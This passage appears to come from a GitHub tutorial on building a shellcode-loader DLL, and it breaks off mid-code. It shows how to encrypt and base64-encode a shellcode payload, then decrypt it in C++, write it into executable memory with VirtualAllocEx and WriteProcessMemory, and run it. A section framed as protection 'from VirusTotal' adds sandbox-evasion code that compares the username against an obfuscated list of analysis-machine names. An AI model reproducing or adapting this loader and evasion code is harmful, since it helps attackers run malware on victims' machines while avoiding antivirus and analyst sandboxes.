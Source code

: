 
Now, in the same don't run the same command, just remove the argument -a so that the shellcode bin file is generated.

<img align="left" src="https://github.com/user-attachments/assets/7d36895a-8717-4a63-94e7-0c3fbda2c71f" width="950" height="150">


Next, we use our compiled Encrypter.exe

The file is saved in your path, then go to any hex editor, for example HxD on Windows, for Linux Okteta. There, select Edit -> Copy as Array C, in HxD, the algorithm is about the same.

Creating a new payload file.h include it and base64.h in library.cpp

```
#include "base64.h"
#include "payload.h"
```

Next, we slightly change the code in library.cpp for the encrypted payload, add base64_decode and decryption + slightly change the code where the virtual is.

```
void* Process = funcGetCurrentProcess();
std::string base_dec = base64_decode(buffer);
std::string buffer_dec = EncryptDecrypt(base_dec,default_key);
PVOID allocatedMem = funcVirtualAllocEx(Process,0, buffer_dec.size(), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
if(allocatedMem == nullptr){
MessageBoxW(NULL, L"Hello from g2m.dll", L"Entry", MB_ICONEXCLAMATION | MB_OK);
exit(EXIT_FAILURE);
}
SIZE_T bytes;
funcWriteProcessMemory(Process, allocatedMem, buffer_dec.c_str(), buffer_dec.size(), &bytes);
((void(*)())allocatedMem)();
ExitProcess(0);
```
### We protect ourselves from the VirusTotal with simple tricks

Everyone is probably being stabbed by bots from the virustotal that are forever knocking on the file, or other AnyRun machines and other similar crap, I decided to show how you can protect yourself from half if you have a Dllka, but you can use it in the exe I think. Let's add a call to GetUserNameA again, I create a typedef.

```
typedef WINBOOL(WINAPI *PGetUserNameA)(LPSTR lpBuffer, LPDWORD pcbBuffer);
PGetUserNameA funcGetUserNameA;

bool CheckUserNames() {
    char *sUsers[] = {(char *) AY_OBFUSCATE("UserName"),
                      (char *) AY_OBFUSCATE("user"),
                      (char *) AY_OBFUSCATE("sandbox"), (char *) AY_OBFUSCATE("honey"), (char *) AY_OBFUSCATE("vmware"),
                      (char *) AY_OBFUSCATE("currentuser"), (char *) AY_OBFUSCATE("nepenthes"),
                      (char *) AY_OBFUSCATE("andy"),
                      (char *) AY_OBFUSCATE("CurrentUser"), (char *) AY_OBFUSCATE("HAL9TH"),
                      (char *) AY_OBFUSCATE("JohnDoe")};

    char szBuffer[30];
    unsigned long lSize = sizeof(szBuffer);

    if (funcGetUserNameA(szBuffer, &lSize) == 0) {
        return (1);
    }

    for (int i = 0; i < (sizeof(sUsers) / sizeof(char *)); i++) {
        if (strstr(szBuffer, sUsers[i])) {
```